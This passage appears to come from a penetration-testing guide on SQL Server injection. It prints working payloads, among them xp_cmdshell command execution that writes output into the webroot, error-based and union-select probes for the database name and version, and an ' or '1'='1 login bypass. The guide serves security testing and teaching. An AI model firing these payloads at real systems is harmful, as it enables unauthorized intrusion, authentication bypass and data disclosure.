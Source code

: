 Let's see now some examples of specific SQL Server attacks that use the aforementioned functions. Most of these examples will use the **exec** function.


Below we show how to execute a shell command that writes the output of the command *dir c:\inetpub* in a browseable file, assuming that the web server and the DB server reside on the same host. The following syntax uses xp_cmdshell:
```
 exec master.dbo.xp_cmdshell 'dir c:\inetpub > c:\inetpub\wwwroot\test.txt'--
```
Alternatively, we can use sp_makewebtask:
```
 exec sp_makewebtask 'C:\Inetpub\wwwroot\test.txt', 'select * from master.dbo.sysobjects'--
```


A successful execution will create a file that can be browsed by the pen tester. Keep in mind that sp_makewebtask is deprecated, and, even if it works in all SQL Server versions up to 2005, it might be removed in the future.


In addition, SQL Server built-in functions and environment variables are very handy. The following uses the function **db_name()** to trigger an error that will return the name of the database:
```
/controlboard.asp?boardID=2&itemnum=1%20AND%201=CONVERT(int,%20db_name())
```

Notice the use of [[convert](http://msdn.microsoft.com/library/en-us/tsqlref/ts_ca-co_2f3o.asp)]:
```
CONVERT ( data_type [ ( length ) ] , expression [ , style ] )
```

CONVERT will try to convert the result of db_name (a string) into an integer variable, triggering an error, which, if displayed by the vulnerable application, will contain the name of the DB.


The following example uses the environment variable **@@version **, combined with a "union select"-style injection, in order to find the version of the SQL Server.
```
/form.asp?prop=33%20union%20select%201,2006-01-06,2007-01-06,1,'stat','name1','name2',2006-01-06,1,@@version%20--
```

And here's the same attack, but using again the conversion trick:
```
 /controlboard.asp?boardID=2&itemnum=1%20AND%201=CONVERT(int,%20@@VERSION)
```


Information gathering is useful for exploiting software vulnerabilities at the SQL Server, through the exploitation of an SQL-injection attack or direct access to the SQL listener.


In the following, we show several examples that exploit SQL injection vulnerabilities through different entry points.


### Example 1: Testing for SQL Injection in a GET request.

The most simple (and sometimes most rewarding) case would be that of a login page requesting an user name and password for user login. You can try entering the following string "' or '1'='1" (without double quotes):
```
 https://vulnerable.web.app/login.asp?Username='%20or%20'1'='1&Password='%20or%20'1'='1
```
If the application is using Dynamic SQL queries, and the string gets appended to the user credentials validation query, this may result in a successful login to the application.
